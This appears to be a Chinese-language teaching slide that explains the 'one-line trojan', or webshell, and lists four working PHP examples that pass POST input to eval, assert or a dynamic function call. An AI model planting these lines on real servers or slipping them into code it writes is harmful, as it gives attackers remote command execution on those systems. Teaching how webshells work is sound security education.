

# 计算机木马
一句话木马是指只有一行代码的木马，利用Web编程语言（asp、php、jsp、aspx）的某个函数来执行攻击命令，也称为webshell。
PHP一句话木马示例：
<?php eval($_POST[sb])?>
<?php assert($_POST[sb]);?>
<?$_POST['sa']($_POST['sb'],$_POST['sc'])?>
<?php @eval($_POST['cmd']); ?>